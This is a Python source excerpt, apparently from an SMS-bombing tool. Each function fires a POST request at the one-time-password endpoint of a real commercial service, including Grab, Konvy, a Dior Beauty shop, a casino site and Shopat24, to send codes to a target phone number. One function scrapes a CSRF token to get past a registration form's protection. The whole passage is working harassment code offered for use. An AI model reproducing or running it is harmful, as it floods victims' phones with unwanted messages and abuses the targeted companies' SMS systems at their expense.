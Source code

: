 



def sk8(phone):

    post("https://api-shop.diorbeauty.hk/api/th/ecrm/sms_generate_code", headers={"User-Agent": useragent}, data={"number": f"+66{phone[1:]}"})





def sk9(phone):

    post("https://api.sacasino9x.com/api/RegisterService/RequestOTP", headers={"User-Agent": useragent}, json={"Phone": phone})



def sk10(phone):

    post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", headers={"User-Agent": useragent}, data={"phone": phone})





def sk11(phone):

    post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})



def sk12(phone):

    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"66{phone[1:]}"})





def sk13(phone):

    post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})





def sk14(phone):

    session = Session()

    searchItem = session.get("https://www.shopat24.com/register/").text

    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)

    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})


